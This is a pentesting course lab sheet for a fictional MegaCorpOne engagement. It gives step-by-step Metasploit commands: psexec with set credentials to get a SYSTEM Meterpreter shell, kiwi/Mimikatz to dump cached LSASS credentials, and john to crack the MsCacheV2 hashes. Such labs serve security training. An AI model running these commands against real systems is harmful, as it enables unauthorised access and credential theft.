 ## Activity File: Credential Dumping

In this activity, you will continue to play the role of a pentester conducting an engagement on MegaCorpOne. You have now been tasked to use the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine. Then you will save and crack the hashes using `john`.

### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- ![A screenshot depicts the results of the command.](/v2.5-Curriculum/1-Lesson-Plans/17-Pentesting-2/3/Images/psexecoptions.PNG)
	
3. Run the module with `run`

	- ![A screenshot depicts the results of the command.](/v2.5-Curriculum/1-Lesson-Plans/17-Pentesting-2/3/Images/runpsexec.PNG)

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

6. Dump all of the cached credentials from LSASS using a `kiwi_cmd` command. Reference the following cheatsheet for Mimikatz. Pay attention to the "lsadump" section. 
	
     - [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

     **Note**: If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you'll want to migrate to another SYSTEM x64 process.

7. In the output, the hashes are displayed after the 'MsCacheV2 field'. MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown below.

	![A screenshot depicts the format of the hashes.](../../../Images/hashformat.PNG)
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag --format=mscash2, e.g. `john --format=mscash2 hashes.txt`

8. You should now have the plaintext password to the new account, 'bbanner'.
                                                                                                                               
---
© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.



